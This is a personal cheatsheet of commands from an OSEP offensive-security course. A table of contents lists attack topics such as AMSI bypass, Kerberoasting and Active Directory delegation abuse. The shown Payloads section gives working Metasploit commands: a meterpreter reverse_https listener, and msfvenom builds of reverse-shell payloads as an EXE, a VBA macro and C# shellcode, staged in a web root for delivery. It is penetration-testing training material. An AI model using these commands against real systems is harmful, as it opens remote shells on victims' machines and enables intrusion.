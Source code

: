 A cheatsheet with useful commands used during my OSEP course.

- [Payloads](https://forsec.nl/#payloads)
- [AMSI](https://forsec.nl/#amsi)
- [Execute](https://forsec.nl/#execute)
- [MSSQL](https://forsec.nl/#mssql)
- [Tunneling](https://forsec.nl/#tunneling)
- [PrivEsc](https://forsec.nl/#privesc)
- [Traversal](https://forsec.nl/#traversal)
- [Linux libraries](https://forsec.nl/#linux-libraries)
- [Active Directory](https://forsec.nl/#active-directory)
- [Enum](https://forsec.nl/#enum)
- [Unconstrained delegation](https://forsec.nl/#unconstrained-delegation)
- [Constrained delegation](https://forsec.nl/#constrained-delegation)
- [Resource-Based Constrained Delegation](https://forsec.nl/#resource-based-constrained-delegation)
- [Kerberoasting](https://forsec.nl/#kerberoasting)
- [Forest enum](https://forsec.nl/#forest-enum)
- [Forest compromise](https://forsec.nl/#forest-compromise)
- [Beyond forest enum](https://forsec.nl/#beyond-forest-enum)
- [Enumeration](https://forsec.nl/#enumeration)
- [Windows Defender](https://forsec.nl/#windows-defender)
- [Other](https://forsec.nl/#other)

---

## Payloads

---

Multi handler oneliner with custom certificate

```shell
msfconsole -q -x 'use multi/handler; set payload windows/x64/meterpreter/reverse_https; set HandlerSSLCert /home/kali/worstenbrood.pem; set lhost 192.168.49.92; set lport 443; run'
```

EXE

```shell
sudo msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=444 -f exe -o /var/www/html/shell.exe
```

VBA

```shell
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.1 LPORT=443 EXITFUNC=thread -f vbapplication
```

CSharp SharpShooter payload (edit file after creation, remove first line and brackets)

```shell
msfvenom -a x64 -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.1 LPORT=443 EnableStageEncoding=True PrependMigrate=True -f csharp -o /var/www/html/payload.txt
```
